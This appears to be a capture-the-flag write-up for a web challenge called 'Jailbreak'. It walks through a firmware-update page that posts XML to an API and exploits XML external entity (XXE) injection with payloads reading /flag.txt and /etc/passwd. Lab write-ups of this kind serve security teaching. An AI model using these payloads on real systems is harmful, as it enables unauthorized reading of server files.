

# Jailbreak
Category: Web/XXE
Points: 900
Diff: very easy

Description: The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

---

We navigate the web interface, analyzing the requests,
We obtain some information about the server `Server: Werkzeug/3.0.3 Python/3.12.3` that we could use for further enumeration, later on.
We could naively try to directly access `http://{machine-ip:port}/flag.txt` from the web root, but it returns a `404 Not Found`.

Under the ROM tab, at `http://{machine-ip:port}/rom` we find something promising: 

This seems related to the challenge description.
There's a `textarea`:
```html
<textarea id="configData" class="form-control" rows="26"></textarea>
```
and a js script at `http://{machine-ip:port}/static/js/update.js` that fills it with default data on page load, and also hooks the submit button:
```js
$("#updateBtn").on("click", async () => {
    const msg = await queueUpdate($("#configData").val());
    $("#messageText").text(msg.message);
});
```
to POST the xml data to an api endpoint at /api/update
```js
const queueUpdate = async (xmlConfig) => {
    const response = await fetch("/api/update", {
        method: "POST",
        headers: {
            "Content-Type": "application/xml",
        },
        body: xmlConfig
    });
    return await response.json();
};
```
We click submit and see the normal response:
`Firmware version 1.33.7 update initiated.`

We can go for **XXE (XML External Entity) Injection**. Checking if the back-end parser resolves XML External Entities, or if it is disabled.
An XML entity acts like a place-holder for text or data, and stores it for later use in the document.
We can declare and define custom entities in the XML Document Type Definition (DTD), which in turn is declared (and optionally defined, or loaded from elsewhere) in the DOCTYPE element. An external entity is an entity whose definition is located outside the DTD, specified via the `SYSTEM` keyword and a URI.
1. So we will first define an 'internal' entity by adding this to the top of the XML document:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY foo "flag">]>` 
   The server doesn't complain.
2. To see if our input can be reflected back to us, we read the response again, the version is specified as `1.33.7`, which is supplied by us: `<Version>1.33.7</Version>` \
3. We try to see if modifying it will be reflected in the response, referencing the defined entity: `<Version>&foo;</Version>`
   we get the following response:
   `Firmware version flag update initiated.`
   It works.
4. So all that's left is it try ex-filtrating the flags.txt file by changing foo to an external entity:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY foo SYSTEM "file:///flag.txt">]>`
   And there we go:
   `Firmware version HTB{*****REDACTED****} update initiated.`
   We have the flag.
5. From here we could ex-filtrate more system information to demonstrate the impact. For example:
   `<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>`
   successfully retrieves the contents of /etc/passwd. 